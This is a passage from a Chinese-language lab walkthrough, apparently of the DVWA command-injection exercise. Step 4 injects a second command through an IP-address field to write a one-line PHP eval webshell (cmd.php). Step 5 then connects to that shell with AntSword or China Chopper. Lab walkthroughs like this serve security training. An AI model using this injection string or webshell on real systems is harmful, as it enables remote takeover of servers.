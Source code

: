 4.  由于Windows系统中自带的cmd不如Linux中的bash等灵活方便，这里直接利用命令注入写入一个一句话木马方便渗透

    输入“**127.0.0.1 & echo "<?php @eval($_POST['cmd']); ?>" > cmd.php**”，然后点击提交按钮执行，执行后再次使用“dir”命令查看是否写入成功

    ![ci4](/images/dvwa2/ci4.jpg)

5.  然后就可以利用蚁剑或菜刀进行连接

    ![ci5](/images/dvwa2/ci5.jpg)
